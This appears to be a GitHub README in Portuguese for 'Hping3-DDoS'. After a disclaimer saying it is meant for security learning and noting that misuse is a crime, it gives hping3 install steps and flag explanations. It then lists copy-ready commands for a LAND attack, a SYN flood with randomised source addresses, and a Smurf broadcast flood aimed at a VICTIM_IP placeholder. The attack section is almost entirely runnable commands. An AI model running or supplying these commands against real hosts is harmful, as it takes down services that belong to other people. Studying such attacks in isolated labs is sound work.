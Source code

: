 # Hping3-DDoS

## AVISO
- Não me responsabilizo pelo o uso desses projetos/códigos para fins malignos. Eles são criados para pessoas que tenham interesse na área de Segurança da Informação.

- Todos os códigos e projetos foram testados em ambientes isolados por mim.

- Lembrem-se de que usar essas informações para hackear, invadir ou derrubar serviços de dispositivos alheios é CRIME previsto na Lei [14.155/2021](http://www.planalto.gov.br/ccivil_03/_ato2019-2022/2021/lei/L14155.htm).

## Install
```
$ sudo apt install hping3
```


## Important Commands

- Help hping3

```
$ sudo hping3 -h
```

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```

```
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode

```

## Attack DoS Land
```
$ sudo hping3 -V -c 1000 -d 100 -S -p 21 -s 80 -k -a 192.168.1.110 192.168.1.110
```

## DoS type Syn Flooding
```
$ sudo hping3 -V -c 1000000 -d 120 -S -p 445 -s 445 --flood --rand-source VICTIM_IP
```

## Attack DoS Smurf:
```
$ sudo hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS
```

## References
- http://docente.ifrn.edu.br/josemacedo/disciplinas/2019/2019.1/praticas-de-laboratorio/03-simulando-ataques-dos-com-hping